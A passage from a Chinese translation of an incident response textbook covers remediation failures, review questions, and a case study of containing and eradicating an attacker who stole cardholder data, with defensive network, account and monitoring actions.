     b. 在受限环境中运行 Apache。

  4. 禁止所有服务器的远程 root 登录。

  5. 为所有用户账户设置强密码：

     1. 更改 root 和 Apache 用户账户的密码。
     2. 每个系统每个账户实施唯一密码。
     3. 移除 Apache 用户的 root 权限。
     4. 禁止 Apache 用户在特定目录中创建文件。
     5. 实施 Web 应用防火墙（WAF）或其他针对基于 Web 应用的恶意活动的入侵检测系统（IDS）。
     6. 验证所有清除行动的成功实施。

  请注意，此列表还包括一些未在头脑风暴会议中提到的项目。这是因为一些清除行动是为了正确修复受损情况而必需的，但与已知的攻击者活动没有直接相关性。例如，列表中列出的第一个清除行动：从互联网断开 DMZ 系统的连接。此清除行动是为了确保攻击者不会干扰清除事件，但没有直接涉及到攻击生命周期或补救计划矩阵的任何部分。另外，请注意行动的实施顺序。该顺序旨在拒绝攻击者访问环境，防止攻击者使用被入侵的用户账户（以防漏掉了进入环境的途径），并在可行的情况下实施增强的安全措施（例如，在受限环境中重建 Web 服务器）。

- **战略行动**以下行动更适合作为战略建议：

  - 进行彻底的代码审查。
  - 实施ACL，限制系统之间的通信，除非是业务功能所需的端口。
  - 实施已经调整规则以监控从一个系统到另一个系统的非业务流量的入侵检测系统。

其他应该考虑的战略建议，即使它们在头脑风暴会议中没有被提及，因为它们与当前事件不直接相关，可能包括：

- 为DMZ实施SIEM以实现集中日志记录。
- 将DMZ的安全监控外包给托管安全服务提供商。
- 除了通过多因素认证外，禁止从互联网远程管理DMZ。

在下一章中，我们将针对具体情景进行更详细的介绍，并提供修复案例研究。在此之前，我们想用一个简要的讨论来总结本章，讨论导致修复失败的常见挑战。

### **导致修复失败的常见错误**

根据我们的经验，组织在修复过程中常犯一些错误，导致他们失败或者取得较少成功。以下是你应该注意的最常见陷阱： ◦ 缺乏所有权 ◦ 缺乏高层支持 ◦ 计划不周 ◦ 修复计划过于雄心勃勃 ◦ 时机选择不当

在本章的其他部分，我们已经讨论了缺乏事件和修复所有权、缺乏高层支持、计划不周和时机选择不当。然而，我们还没有讨论过过于雄心勃勃的修复计划如何导致失败。有时候，组织会将修复工作视为改变其安全姿态的机会。这通常是因为安全团队突然发现他们拥有高层的兴趣、支持和资金。这导致组织忽视了即时的问题（修复当前事件），转而专注于更战略和长期的行动。修复团队需要避免这个陷阱，保持专注于修复当前事件。

对于经验丰富的安全专业人员来说，忽视未来的安全规划可能听起来有些违反直觉。他们必须保护无数的系统和应用程序，而攻击者只需要利用一个应用程序或系统中的一个漏洞就可以绕过安全控制。因此，利用对安全举措的增加支持，并在管理层支持下行动似乎是有道理的。然而，根据我们的经验，组织在安全姿态改变方面往往失败，因为这需要太多额外的工作。这种失败通常会影响调查和修复工作，因为他们的资源经常被用于实施试图改进安全性的措施。

### **那又怎样?**

修复过程可能非常复杂和具有挑战性。与多个团队进行协调，确定修复行动的影响，处理法律问题，遇到临时变更，担心遗漏某些内容，并参加无数次会议，这些都会考验你的耐心并消耗你的精力。一个包括周密计划、专注、注重细节和协调执行的过程将帮助你保持理智并取得成功的修复。该过程包括我们在本章开头介绍的八个步骤：

- 组建修复团队。
- 确定修复行动的时机。
- 制定和实施修复定位行动。
- 制定和实施事件遏制行动。
- 制定根除行动计划。
- 确定根除事件的时机并执行根除计划。
- 制定战略建议。
- 记录调查的经验教训。
- 进行彻底的代码审查。
- 实施访问控制列表（ACL）以限制系统之间的通信，除非是业务功能所需的端口。
- 实施IDS，并调整规则以监控一系统向另一系统发送的非业务流量。

**问题**

1. 列举至少五个对补救工作至关重要的因素。
2. 列举至少三个对一个强大的补救团队领导者至关重要的品质。
3. 补救团队是否应该包括来自调查团队的成员？为什么或为什么不？
4. 给出至少五个应该成为补救团队成员的人员的例子（包括辅助人员）。
5. 定义姿态行动。定义封锁行动。这两种类型的行动之间有哪些不同之处？
6. 一些常见的根除事件失败的原因是什么？
7. 解释平均补救时间（mean time to remediate）的概念。这是一个有用的概念吗？
8. 给出一个补救工作的例子，其中综合行动方法对事件响应工作比立即行动或延迟行动方法更有价值。
9. 选择一个最近公开的违规披露，并根据已知信息创建一个封锁计划。作为根除工作的一部分，你将实施哪些行动，而这些行动不会成为封锁计划的一部分。解释你的选择。
10. 为第一章中呈现的两个案例研究之一创建一个完整的补救计划，包括姿态/封锁、根除和战略建议。

## 第18章 **补救案例研究**

在本章中，我们在你在第17章中学到的基础补救概念的基础上进行深入。你将了解到，补救并不总是一个简单明了的概念，既涉及技术因素，也涉及非技术因素，这些因素决定了补救工作的进程。例如，应用程序的业务重要性、运营现实、成本和人力资源始终是影响补救时间和全面性的关键因素。这些因素有时会迫使补救团队基于现实约束条件实施不太理想的解决方案。

在本章中，我们将详细介绍如何为第一章的案例研究创建一个补救计划。我们将解释为什么使用特定的补救行动以及补救团队在进行补救过程中所面临的现实情况。我们还将讨论补救行动的影响。你可能会对某些行动或方法存在异议，这是可以预期的。因为这是一个实际情况下的场景，涉及复杂的环境和敏感的运营问题，理想的解决方案并不总是可行的。此外，在本章末尾的一个问题中，你将有机会为第一章的第二个案例研究构建自己的补救计划。

- 注意：

  解决事故并没有单一正确的方法。 只要满足以下条件，解决措施就可以被视为成功：

  - 攻击者已成功从环境中清除。 
  - 正常运营已恢复。 
  - 解决措施后的环境比之前更安全。 
  - 后续的威胁被快速发现并响应。

### *案例研究1的解决方案：

给我钱**

我们将解决方案案例分为五个部分。首先，我们会选择团队并确定解决时间；然后，我们会限制事故范围，调整环境，清除攻击者，最后，讨论战略方向。这些部分大致对应于您在上一章中阅读到的高级解决步骤。请注意，在本案例研究中我们不会讨论“经验教训”。经验教训是针对每个组织、团队、安全状态和解决经验而言的。

- 注意：

  在本章的其余部分，我们将引用第1章的主题。您可能需要回顾第一个案例研究和攻击生命周期的概念。

#### **选择团队**

组织选择了一位资深副总裁John来担任事故负责人。John负责IT审计组，因此被选为事故负责人。选择John作为事故负责人是因为他的团队在技术方面足够强大，并与IT团队密切合作。这意味着他在IT组织内有着良好的人际关系，并对技术细节有着深入的了解。John不会试图掩盖糟糕的安全实践和其他问题，因此风险较小。最后，John是组织中的高级成员，以其决策能力而受到广泛尊重。所有这些特点使得John成为事故负责人的正确选择。John选择了以下七个职能中的一人作为解决团队的成员：

- **系统工程** 个人熟悉诸如服务器、工作站、笔记本电脑和移动设备等系统的构建、部署、配置和维护，包括受限金融环境。该个人在修复团队中的角色是为团队提供建议，以确保对业务的最小中断。
- **应用工程** 个人熟悉在DMZ、企业环境和受限金融环境中运行的众多应用程序。该个人在修复团队中的角色是确保任何涉及应用程序的修复行动不会影响业务。
- **网络工程** 个人熟悉网络架构和网络安全设备的配置。他负责确保所有与网络有关的修复措施的设计和实施正确。
- **调查团队** 个人是调查团队的一部分，了解妥协的各个方面。他以攻击者的角度为修复团队提供支持。他负责确保修复计划涵盖与此事件相关的攻击生命周期的所有阶段，并确保所有行动充分应对攻击者带来的威胁。
- **公共关系** 个人专门处理负面的舆论反应。他负责起草公共关系材料，处理所有媒体请求，并与高管一起进行危机控制。
- **业务运营** 个人是长期的经理，了解受害组织核心业务的内部运作。他负责与各个业务线所有者合作，确保他们了解修复行动对业务的影响。他还负责确保修复团队了解其决策的业务影响。
- **法务** 这个个人从一开始就参与，以防受害组织面临诉讼。这个个人每隔几天就会接到关于事件的简报，以确保他对细节有一个具体的了解。这被证明是一个明智的决定，因为妥协最终被泄露给媒体，导致受害者提起了数据盗窃的诉讼。

团队组建完成后，约翰指定网络管理员安德烈担任团队负责人。安德烈之所以被选择，是因为他是修复团队成员中技术最高的人，他在团队中表现出色，并且在公司工作了十多年。安德烈受到团队成员的喜爱，也受到公司内其他技术和非技术成员的尊重。

#### **确定修复时间**

安德烈的第一个任务是确定修复时间。他首先与调查团队会面，了解到目前为止攻击者的活动情况。安德烈了解到攻击者使用多个后门来保持对环境的访问，并通过后门隧道化RDP流量。安德烈还了解到攻击者通过跳板服务器访问受限金融环境，并通过企业环境代理连接到受限环境和互联网。接下来，安德烈与业务利益相关者和关键高管会面。在这次会议中，安德烈进一步了解了调查团队的进展、公司的责任以及法律要求。在这次会议上，决定实施立即的遏制计划，以消除攻击者对受限金融环境的访问。业务利益相关者和关键高管明白这将会影响业务运营，但遏制攻击持续丢失持卡人数据至关重要。他们同意实施遏制计划，然后在更好地了解妥协范围后逐步恢复业务功能。这种方法是综合行动修复的一个例子；修复团队将在受限金融环境中实施立即的遏制行动，但对其他环境的行动将延迟。

#### **遏制事件**

现在修复团队确定了修复时间，他们开始制定立即的遏制计划。在这种情况下，攻击者正在从受限金融环境中窃取持卡人数据。停止这种活动是最高优先级。为了遏制事件，修复团队需要更多关于如何访问受限环境的信息。安德烈和团队的其他成员进行了访谈，检查了数据流和网络文档，并手动审查了两个核心交换机和一个主/备防火墙配对的ACL。

::: ▶注意

始终核实您所听到的技术细节是非常重要的。组织并不总是真正了解网络流量如何在其环境中传递以及访问控制列表（ACL）是如何实施的。这就是为什么补救团队除了进行人员访谈和文档审查外，还会手动审查ACL的原因。

:::

以下要点总结了补救团队对受限金融环境中出入口的了解：

- 从企业环境到受限环境的访问仅限于跳板服务器JMPSRV。
- 从受限环境到企业环境的访问被拒绝。
- 受限环境未连接任何无线访问点。
- 特定系统通过虚拟专用电路（VPC）与一家收购银行进行通信。
- 收购银行通过VPC无法访问受限金融环境。
- 存在于多个DMZ中的各种Web应用程序与受限环境的后端数据库连接。
- 受限环境到互联网的出站网络流量被拒绝。

对现有网络ACL的审查揭示了受限环境到企业环境的网络流量实际上未被拒绝。曾临时设置了一个允许所有流量的规则，但从未移除。在这种情况下，攻击者并没有利用这个配置错误，但这说明了手动审查技术配置总是一个好主意。此外，补救团队了解到收购银行通过VPC对其受限金融环境拥有无限制访问权限。尽管文档显示已经设置了防火墙，但实际上并没有。下图显示了受限金融环境和允许的数据流动情况：


- 注意：

  定期对关键系统和数据进行渗透测试非常重要，因为这些测试通常会揭示配置错误、临时规则或遗忘的配置。渗透测试还是确保主要项目实施与意图相匹配的好方法。正如您将在本章后面阅读到的那样，定期渗透测试是组织的核心战略建议。

安德烈和团队利用他们发现的信息来确定适当的立即遏制措施，如下所列。（斜体文本包含额外的注释，以帮助解释每个建议，此文本不是遏制计划的一部分。）

- 对来自受限环境到公司环境的所有流量实施“拒绝全部”规则。此规则永久实施。*受限环境中的流量没有理由经过公司环境，因此应明确拒绝此流量。攻击者可以配置恶意软件直接从受限环境与邮件交换器通信，而无需通过跳板服务器代理。*
- 在跳板服务器上，对来自公司环境到受限环境的所有流量实施“拒绝全部”规则。此规则是临时的。*这个防火墙规则是必要的，以确保攻击者无法通过任何方式从公司环境重新获得对受限金融环境的访问。此规则必须是临时的，因为系统管理员需要通过跳板服务器与受限金融环境进行通信，进行常规维护和系统管理活动。*
- 在控制与收购银行之间访问的交换机上，对来自收购银行的流量实施“拒绝全部”规则。此规则永久实施。*没有理由允许来自收购银行的网络流量进入受限环境，因此此行动是永久实施的。对于此链接，不需要实施防火墙，因为不需要进行深度和状态包检查。交换机上的标准“拒绝”ACL已经足够好用。*
- 禁止来自任何DMZ到受限环境的所有网络流量，反之亦然，除了业务所需的数据库连接。此规则永久实施。*为了确保已实现完全遏制，需要切断进入受限金融环境的所有网络访问。当然，需要解决某些业务需求，如向面向客户的银行应用程序提供数据的数据库连接。下一个遏制措施有助于减轻允许的数据库连接所带来的威胁。此规则是永久实施的，因为DMZ的目的是在DMZ中的系统受到威胁时保护内部环境。*
- 在受限金融环境中实施一个VLAN段，以隔离与DMZ中系统通信的所有数据库服务器。此规则是临时的。*需要对与DMZ中其他数据库服务器保持连接的数据库服务器进行分段，以确保受限金融环境的完整性。在事件响应期间，系统管理员手动导入了所有数据库所需的数据。尽管这个安全措施极大地增强了受限金融环境的分段（从而增强了安全性），但是操作业务要求阻止此操作成为永久性的。稍后创建了一个战略性行动项目，以更好地保护整个环境中的数据库连接。*
- 禁止受限环境与收购银行之间的所有连接。在事件期间，数据将被排队并手动传输。此规则是临时的。*尽管这会带来一些额外的开销，但团队认为这是可以接受的。网络管理员将暂时允许流量以允许手动启动的传输，这发生一天一次。此规则风险相对较低，易于在根除事件之后移除。*

下图显示了实施遏制措施后的受限金融环境。请注意，几乎没有允许的数据流进出该环境。


你可能已经注意到，收容计划中的行动没有包含实施细节。例如，其中一个收容行动是在公司环境到受限环境的所有流量上实施“拒绝全部”规则。收容计划没有指定需要在哪些设备上实施该规则，也没有指定规则在ACL中的顺序。在完整的计划中，这些关键细节在一个单独的文档中列出，该文档包含每个行动项目的详细信息。出于简洁起见，我们选择不显示推荐背后的详细信息，但对于任何实际计划，您应该同时具备高层汇总的整治行动和包含所有细节的单独文档。您可以使用汇总文档向管理层展示整治团队正在采取的行动。此外，您可以将其用作检查清单，以确保完成每个行动项目。

您还应该注意到，每个建议都是以行动为导向的。不应该存在任何模糊区域或不确定性。整治团队必须详细讨论这些行动，以便在执行时没有争论或问题。明确指出哪些建议是临时的，哪些是永久的也很重要。某些收容计划将仅包含临时行动，但其他计划则不然。在这个案例研究中，该计划包含了一些永久行动，因为它们在对业务影响很小的情况下提高了安全性。

在完成计划后，安德烈和整治团队在不到24小时的时间内实施了它。从检测到收容仅过去了五天。五天听起来可能很长，但请记住，最终需要两个月的时间才能完全清除环境中的攻击者。在收容后的每一天，攻击者都被阻止窃取持卡人数据。这样做可以避免潜在地泄露数千张卡片，从而为受害组织节省了数十万美元。

您可能会想知道为什么整治团队不能对整个环境实施收容计划，而不仅仅是针对受限的财务环境。大多数金融机构已经在其敏感金融应用和系统周围采取了某种增强安全措施。最常见的增强安全形式是将这些系统放置在受限的网络段中，就像案例研究中的公司所做的那样。当整治团队完全了解他们正在收容的网络段内所有可能的数据流动时，即时收容计划最为有效。这意味着高度分割的环境比大型公司环境更适合收容计划。一旦了解了与分割环境的访问方式和流量全部方法，收容计划只需要禁用每个访问方法，无论它们在安全性方面有多么可靠。简而言之，在环境中的单个段上实施收容计划要简单得多且更有效。

#### **确定环境状态**

在收容计划就位后，整治团队集中精力开展确定环境状态的行动，这些行动旨在增强环境的安全性，同时调查正在进行中。您可能会想知道为什么整治团队会开展确定环境状态的行动，尽管已经有了收容计划。这主要有两个原因。首先，增强可见性是确定环境状态行动的目标之一，这有助于当前的调查和未来的检测工作。其次，调查团队尚未完全确定受损范围，因此整治团队有时间在专注于清除事件之前专注于这些活动。

- 注意：

  尽管安全事件非常不幸，但它们确实提供了改进的独特机会。尽管整治团队应该专注于立即的事件处理，但任何闲暇时间都应用于制定能够改善长期安全状况的建议。高级管理层通常在安全事件期间和紧随其后更支持安全举措。尽管安全事件确实提供了获取战略性举措的额外资金的机会，但整治团队不能丧失对立即事件的专注。

整治团队制定了八项确定环境状态的行动，旨在增强环境的安全性并提高对攻击者活动的可见性。下面按重要性顺序列出了这八项行动：

- 在所有防火墙上启用“允许”连接的日志记录。为所有已知的恶意流量配置警报。*常见的防火墙配置错误是仅记录被拒绝的流量。在事件发生期间，了解通过防火墙允许的流量比了解被阻止的流量更为重要。通过实施这个建议，组织增强了其调查团队追踪网络上攻击者活动并对已知活动发出警报的能力。*

- 要求所有已知受损用户账户的用户使用新账户。

  *这个建议将帮助调查团队识别潜在的攻击者活动。通过强制已知受损账户的所有者使用不同的凭据，原始账户上的任何进一步活动都很可能是攻击者的。我们说“很可能是攻击者”是因为有时用户会错误地使用他们的旧账户。请注意，用户应被指示为他们的新账户使用一个新密码。*

- 为已知受损账户的使用，包括本地管理员和域管理员，设置自动警报。*纠正团队确保从活动目录域控制器获得Windows安全事件日志，并从已知受损和关键Linux系统的/var/log/auth.log文件转发到SIEM。与大多数大型组织一样，并非所有关键系统都将其日志转发到SIEM。在实施对攻击者活动的全面警报之前，纠正团队首先必须纠正此问题。*

- 暂时使用机器证书实施两因素身份验证以访问企业环境中的JMPSRV。*这个建议将防止攻击者仅凭用户名和密码访问受限环境。两因素身份验证增加了获取系统访问权限的难度，因为攻击者必须利用两因素身份验证机制或系统上的其他服务，而不是使用被攻击凭据登录。尽管基于机器的证书不被视为强大的两因素身份验证形式（因为它们可能会被盗），但它们仍然比单一因素更强大。纠正团队后来制定了一个战略建议，要求为所有管理员账户实施两因素身份验证，其中需要使用物理令牌或短信作为第二因素身份验证。*

- 从已知良好的媒体重建受损的受限金融环境中的所有系统。*实施封堵计划确保攻击者无法再访问受限金融环境。因此，在根除事件之前，重建已知受损系统是可以的。在开始之前，请确保与调查团队核对是否需要保留这些系统的任何证据。*

- 制定企业环境中关键服务器的列表。

  *为了实施下一个建议，需要这个建议。组织已经有了受限金融环境中关键系统的列表；然而，对企业环境的追踪不够紧密。企业环境中关键服务器的示例包括邮件交换、SharePoint、文件共享和SAP数据库。*

- 为关键服务器配置出站连接白名单。

  *大多数关键服务器不需要无限制地访问互联网。通过在Web代理上实施白名单，您可以防止攻击者在互联网上建立与任意系统的出站连接。*

- 在受限金融环境中的所有关键系统上以阻止模式实施应用程序白名单。软件应验证二进制MD5哈希和证书。*应用程序白名单将防止攻击者的恶意软件在所有受损系统上执行。该建议还可防止未来的攻击者在关键系统上执行恶意软件。纠正团队应确保白名单处于阻止模式。很多时候，默认模式只是警告，并且从未更改设置。最后，应用程序白名单软件需要在允许二进制MD5哈希和证书签名之前验证二进制文件，以防止攻击者利用DLL搜索顺序劫持等技术进行攻击。*

- 注意：

  解决团队必须对其推荐的行动进行彻底的技术研究和理解，以及其安全效益。在应用程序白名单示例中，解决团队理解到应用程序白名单软件可能难以实施，该软件需要以阻止模式实施才能有效，而且该软件应该验证MD5哈希和二进制签名以确保获得该软件提供的最高级别的保护。如果缺乏这种理解，受害组织可能会以提供很少安全效益的方式实施应用程序白名单。

解决团队与各个IT团队密切合作，确保姿态行动得到快速且正确的实施。解决团队在姿态行动的实施过程中提供监督、指导和验证。尽管为清除事件做准备，解决团队仍然能够在四周内实施所有姿态行动。

在前一章中，我们提到姿态行动不应该警示攻击者。如果警示了攻击者，他可能会更改工具、战术和程序，这很可能会使调查团队的努力受挫。在这种情况下，攻击者可能意识到自己被发现当他完全无法访问受限的金融环境时。然而，这并不意味着可以随意执行任何行动。例如，有些组织感觉有必要尽快更改已知被入侵的用户帐户的密码。对这个行动的论据在攻击者意识到自己被发现后更有说服力。然而，这通常不是一个好主意，让我们来看一些原因。大多数攻击者可以访问比他们实际使用的用户帐户更多的帐户。因此，仅仅为已知的300个可能被入侵的帐户中的五个更改密码实际上没有多大作用。事实上，这可能会导致调查团队无法追踪攻击者，因为他将使用新的帐户或其他方法访问系统。此外，一旦攻击者意识到密码正在被更改，他很可能会入侵更多帐户。因此，这些帐户的所有密码可能需要再次更改，从而浪费宝贵的时间和资源。

- 注意：

  尽管我们刚刚解释了在清除事件之前更改用户帐户密码是一个坏主意，但并非总是如此。在前一章中，我们讨论了一个事件，攻击者每晚使用脚本在40个域控制器上植入恶意软件。受害组织的日常响应措施之一是重建受损系统并更改受损用户帐户的密码。这种方法是为了防止攻击者对环境造成任何实质性的损害（如窃取数据），同时受害组织准备进行更全面的清除事件。这个决定是为了使攻击者处于持续的攻击状态，而不是让他在环境中立足稳固。这种方法对所有相关人员来说都需要大量工作，并且需要调查和解决团队以及高级业务领导层之间的深思熟虑。这种方法也只有在调查团队对攻击者的活动有全面的可见性时才可能实施，因此他们能够每晚确定所有受损系统和用户帐户。

#### **根除攻击者**

随着制定的姿态建议正在实施过程中，应对团队随后专注于制定根除计划。根除事件的目的是消除攻击者对环境的访问权限，减轻初始攻击向量，并恢复组织对其计算机系统和用户帐户的信任。需要牢记的是，调查尚未完成，应对团队制定了以下根除事件行动，按照顺序执行：

- 从互联网断开环境的连接，除了业务关键应用程序。确保断开所有业务和合作伙伴网络的连接。确保维持内部网络的连接。 *当正确执行时，此操作将确保在根除事件期间攻击者无法访问环境并侵害新系统。商业运营要求通常会要求至少保留一些连接性，但应采取措施以最小化允许的网络流量。例如，在此案例中，某些金融网络应用程序需要保持运行。这些应用程序已在遏制阶段进行了分割，因此潜在的安全风险很小。应对团队应验证已从环境中的多个点断开了互联网连接。
- 阻止所有已知的恶意 IP 地址。对所有已知的恶意域名实施 DNS 黑洞。 *应尽可能在各个互联网接入点附近阻止所有已知的 IP 地址。许多组织在边界路由器上实施 IP 地址黑名单。*

*应为所有已知的恶意域名设置 DNS 黑洞或 sinkhole。配置恶意主机名解析为专门用于监控目的的系统的 IP 地址是实施 DNS 黑洞的较好方法之一。您可以监控流向监控系统的流量，这可能表明存在受损主机。此技术在您只允许出站 DNS 流量由您的 DNS 服务器发起的情况下效果最佳，因为攻击者可以配置一个公共可用的 DNS 服务器（例如 Google 的）进行 DNS 解析。有些组织选择在其 Web 代理服务器上实施域名拦截。但是，您应考虑到攻击者可能绕过 Web 代理服务器的可能性。*

- 从网络断开所有受损系统并重新构建它们。 *在切断互联网连接后，应尽快断开已知受损的系统与网络的连接，以防止感染的系统对其他系统造成进一步伤害。*

*受损的系统分为两类：攻击者感染恶意软件的系统和攻击者访问但未感染的系统。大多数组织仅选择重新构建受感染的系统。有时，某些受感染的系统被认为对业务过于重要而不予重新构建。在这种情况下，最佳做法是对该系统执行全面的取证分析，并对恶意软件进行全面的逆向工程。这些分析的结果将使应对团队能够制定详细的恶意软件移除和清理说明。这些说明应包括删除所有相关文物，如注册表键和配置文件，而不仅仅是恶意二进制文件本身。*

- 更改两个环境中所有用户帐户的密码。 *这是最难正确实施的建议之一。此建议旨在适用于所有帐户，而不仅仅是已知受损的用户帐户，包括常规用户帐户、服务帐户、本地管理员帐户、本地 Linux 帐户、数据库管理员帐户等。在您知道攻击者已获取某些密码的环境中，最好假设它们全部已被泄露。*

*通常情况下，无法及时更改所有帐户，需要做出一些让步。首先，应对团队需要确定哪些帐户存在最高风险。在此案例研究中，最高风险的帐户包括 Windows 和 Linux 系统的常规用户帐户、服务帐户、本地管理员帐户和数据库帐户。接下来，应对团队需要确定受害组织是否能够实际上更改这些帐户的密码，并在根除事件的两天时间窗口内更改它们。如果组织无法更改某些帐户的密码（以数据库帐户为例），则应重点关注更改最高风险的帐户，例如所有 Microsoft SQL 数据库的“sa”帐户。如果组织有能力更改所有用户帐户密码，但无法在根除事件期间执行此操作，则应实施滚动密码更改。滚动密码更改应确保首先更改最高风险帐户的密码，并根据可行的时间表更改其余帐户密码。*

- 禁用所有 Windows 本地管理员帐户。 *此操作将取消攻击者使用单个帐户访问环境中的多个系统的功能。使用 Microsoft Group Policy Object（GPO），此操作比使用软件为所有系统上的所有本地管理员帐户分配和管理复杂且唯一的密码更容易实施。如果系统管理员通常使用本地管理员帐户执行其日常职责，这可能导致他们的操作方式与以往不同。这还具有使操作行为可追溯的附加好处，因为系统管理员将不得不使用他们个人的管理员帐户。*
- 禁止在所有 Linux 系统上使用“root”帐户进行安全外壳（SSH）身份验证。 *出于与禁用本地管理员帐户增强 Windows 环境安全性的相同原因，此操作将增强 Linux 环境的安全性和可追溯性。*
- 撤销临时遏制措施。 *临时遏制措施需要在某个时间点撤消，而根除事件的结束是撤消这些措施的合适时机。重要的是在根除事件期间不撤消它们，以确保受限金融环境的完整性在根除事件期间出现意外情况时得到保护。*
- 验证所有应对活动是否正确执行。 *这是根除事件中最重要的行动之一。应对团队必须验证所有行动是否正确执行。这意味着验证已正确重建或清理受损系统，更改了用户帐户密码，阻止了网络流量，并在尝试联系已知的恶意 IP 地址、域名等时生成警报。*
- 在至少两周的时间内继续对所有日志源进行加强监控，以确保攻击者的访问已被移除，并且攻击者无法立即重新入侵环境。 *这是根除事件的另一个重要组成部分。在根除后监控所有已知的恶意活动，有助于确定调查过程中是否有遗漏的系统。考虑这样一种情况，即某个系统被恶意软件感染，但用户在大部分事件响应期间都在海外旅行并且保持离线状态。这可能导致未能检测到受感染的系统。当该系统重新连接到企业环境时，恶意软件将尝试与其命令和控制服务器通信。此根除行动将确保阻止的网络流量生成警报，并可以立即进行修复。此外，要考虑攻击者重新获得对环境的访问的可能性。如果攻击者尝试使用已知的恶意软件或已知的先前受损的用户帐户，此根除行动将立即向调查团队发出警报。*

一个非常重要的根除步骤没有列出来。这个根除步骤可以防止攻击者利用作为初始攻击向量的漏洞。这是很重要的，因为根除后的第二天，整治团队需要确保攻击者无法重新进入环境。在调查团队确定攻击者如何获得初始访问权限之前，整治团队已经制定了前面的根除事件行动。正如我们在案例研究中所知，攻击者通过利用遗留的Web应用程序中的SQL注入漏洞获得了初始访问权限。一旦整治团队了解到初始攻击向量，他们将以下行动作为第三个根除行动加入执行：

- 淘汰使用作为初始攻击向量的遗留Web应用程序和支持服务器。*淘汰遗留应用程序是一种比尝试保护遗留Web应用程序代码更全面的方法来减轻漏洞。受害组织决定淘汰遗留Web应用程序和所有支持服务器，而不是评估代码中的安全缺陷并根据需要重新编写应用程序。*

调查团队并不总是能够确定事件的初始感染向量。根除事件并不总是必须包括减轻初始感染向量的措施，尽管那是最理想的情况。即使无法确定初始感染向量，执行根除事件并将攻击者从环境中清除，也比继续延迟根除事件以期望发现初始感染向量更好。根除事件将迫使攻击者重新入侵环境，这增加了因为新的安全和监控改进而被发现的可能性。

根除事件行动的顺序很重要。顺序的设置是为了防止某些事情失败，例如如果互联网没有正确断开连接，攻击者无法重新进入环境。根除事件的结构也考虑到攻击者能否保持对环境的访问途径，并采取措施将允许的访问量最小化，并增加攻击者触发警报的机会。例如，假设在调查中错过了一个植入了后门的被入侵系统，并且该系统能够在根除事件期间与攻击者的命令和控制服务器进行通信。通过确保在根除事件的早期更改所有用户帐户密码，并监视这些用户帐户的可疑活动，调查团队可以在有人尝试使用先前被入侵的帐户时得到警报。这假设为所有已知受损帐户的用户帐户使用设置了警报，但这是调查团队常常采取的行动，并且在这个案例研究中已经实施。

在根除事件策划会议期间，整治团队必须确定执行事件的时间框架。时间选择非常关键，因为我们在上一章中介绍了“打击区域”的概念——过早进行纠正可能会导致遗漏问题，但等待太久只会增加攻击者进一步进行恶意活动的机会。整治团队与调查团队、事件响应负责人和业务领导一起决定，根除事件应该在决策日期后大约三周的某个特定周末发生。这意味着根除事件计划在事件响应开始后六周进行。这为调查团队提供了充分的时间来全面确定受损范围，并为整治团队提供了实施后期活动和适当计划根除事件所需的时间。

在根除事件计划的一周前，遗留Web应用程序数据迁移团队遇到了问题。他们通知整治团队他们在根除事件日期之前无法准备好淘汰遗留环境。所有其他活动的计划仍然按计划进行。整治团队与事件响应负责人、调查团队和业务领导一起决定推迟根除事件一周。多出的一周时间使得来自遗留Web应用程序的数据得以正确迁移，从而将根除事件对业务的影响降到最低。在前一章中，我们提到延迟根除事件可能会带来问题，应该避免。在这个案例研究中，延迟实际上有助于最小化根除事件对业务的影响，并且技术团队能够保持他们的新截止日期。根除事件按时执行，没有出现重大问题。

在铲除事件期间，整改团队只提供了高层监督和指导，没有执行任何操作。整改团队执行的唯一行动项是验证清除行动是否被正确执行。整改负责人为全国各相关方开设了电话会议，并在事件期间每天进行了三次30分钟的状态会议。状态更新使团队能够简洁地更新他们迄今为止完成的工作和任何未解决的问题。这些状态更新会议在一天内频繁进行，管理层始终感到对情况的掌控，并了解状态，但时间足够短，以确保重点是执行工作，而不是为状态更新准备和简报。整改团队还负责确保清除行动按顺序完成，并且在前一个行动完全完成之前不开始后续行动。这有助于确保清除事件的完整性。

#### **制定战略方向**

在铲除事件之后的两周内，整改团队继续开会。在铲除事件之后的那一周，团队整理了一份教训清单。许多教训都来自于实施行动项的现场技术团队。其中一个教训与使用服务账户相关。团队发现有12台Microsoft IIS服务器使用了一个特定的服务账户，而不是最初计划的5台。当这些系统的IIS服务无法启动时，团队发现了其他7台Microsoft IIS服务器，原因是服务账户密码无效。在发生另一个重大的铲除事件时，整改团队现在知道这个服务账户在环境中的使用范围比最初认为的更广泛。

在铲除事件之后的第二周，整改团队检查了他们的笔记和调查结果，并开始制定战略计划。战略建议通常是广泛的，关注高层目标。这意味着整改团队不需要担心规划细节以及每个建议在短期内是否可行。相反，整改团队专注于制定10个改进的战略建议。团队选择了数量为10，因为这是一个足够大的建议数量，以确保有重大改进，但又足够小，使管理层能够充分考虑计划，而无需处理太多选项。整改团队制定了以下10个战略建议：

- 对所有Windows和Linux管理员账户实施双因素认证。这包括在访问跳板服务器时进行双因素认证。

  *通过对所有管理员身份验证实施双因素认证，可以减少管理员账户被攻击者入侵的可能性。整改团队认为这是最重要的建议，因为它可以阻止攻击者在整个环境中使用单一的用户名和密码。*

- 雇佣额外的两名全职安全管理员。

  *尽管计算机安全已经很重要，但过于注重购买设备来保护环境，而忽视了雇佣受过培训的员工。整改团队认为增加两名安全人员将使更多时间用于调整安全设备、审查和响应警报。*

- 将安全作为所有内部开发应用程序的软件开发生命周期（SDLC）的重要组成部分。

  *已经有一个完整的SDLC用于管理Web应用程序的开发和维护，但没有包含安全条款。整改团队认为这个建议特别重要，以减少将来可能发生的外部可用应用程序被利用的风险。*

- 在公司环境中的所有关键服务器上实施应用程序白名单。

  *在关键服务器上正确实施应用程序白名单将最大限度地减少攻击者能够在这些服务器上执行恶意代码的风险。但请注意，应用程序白名单不能阻止攻击者通过操作系统中的常规工具进行身份验证并窃取数据。整改团队认为这个建议很重要，因为攻击者在整个环境中部署了许多后门。*

- 实施技术措施，将所有出站网络流量强制经过组织的应用程序代理基础设施。

  *强制所有流量通过单一基础设施可以使组织更好地控制和监控流量。此外，应用程序代理执行全包检查，检查网络流量是否存在异常活动，并确保所有流量符合RFC标准。某些后门使用的是自定义协议，而不是符合RFC标准的协议。一个例子是将流量发送到TCP端口80（HTTP），但不符合HTTP标准（RFC 2616）。整改团队认为这个建议很重要，因为它可以防止攻击者的后门生成的一些网络流量。至少，这个解决方案将会提醒安全管理员存在异常流量需要调查。*

- 实施全面的渗透测试计划，以确保环境的重大变化不会降低安全级别。

